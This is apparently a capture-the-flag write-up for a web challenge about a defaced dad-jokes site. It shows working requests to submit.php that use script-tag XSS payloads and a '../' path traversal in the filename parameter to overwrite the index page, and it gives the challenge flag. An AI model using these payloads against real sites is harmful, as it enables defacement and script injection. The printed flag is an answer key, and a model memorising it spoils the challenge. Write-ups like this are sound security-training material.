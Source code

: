 
## Flag
```
brixelCTF{lamejoke}
```

## Solution
The page was hacked.

![hacked.PNG](hacked.PNG)

But the hacker left a clue in the page source as a comment that the original page was still in play at /index_backup.html

![](dadjokes.PNG)

Couple pages:
- /jokes/read.php
- /jokes/submit.php

read.php has a list of jokes that are in the existing database. Each joke is a seperate txt file. The submit.php page has a form that a user can submit jokes with. Those seem to live in a pending status but can be viewed.

Tried a few tricks for shell injection. Noticed that quotes get sanatized on submit, but the url seems to be vulnerable.

XSS seems to work too, can run and get an alert
```
http://timesink.be/dadjokes/jokes/submit.php?filename=a.txt&title=a&content=<SCRIPT>alert("1")</SCRIPT>
```

Tried
```
http://timesink.be/dadjokes/jokes/submit.php?filename=index.html&title=page&content=&submit=true
```
and got the first possible positive result
```
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```

Tried:
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=page&content=<SCRIPT>alert("1")</SCRIPT>&submit=true
```
 This gives 
 ```
 You are definitely on the right track here... but what are you trying to accomplish?
 ```

 tried:
 ```
 http://timesink.be/dadjokes/jokes/submit.php?filename=../../index.html&title=page&content=<SCRIPT>alert("1")</SCRIPT>&submit=true
 ```
  and got 
  ```
  You're on the right track, but are you trying to be a bit naughty?
  ```

  So back one. What am I trying to accomplish? The challenge wants us to restore the original website? Tried using iframe and scripts. Ended up just copying the entire content of the index_backup.html and that presented the flag
  ```
  Congratulations, the flag is brixelCTF{lamejoke}
  ```
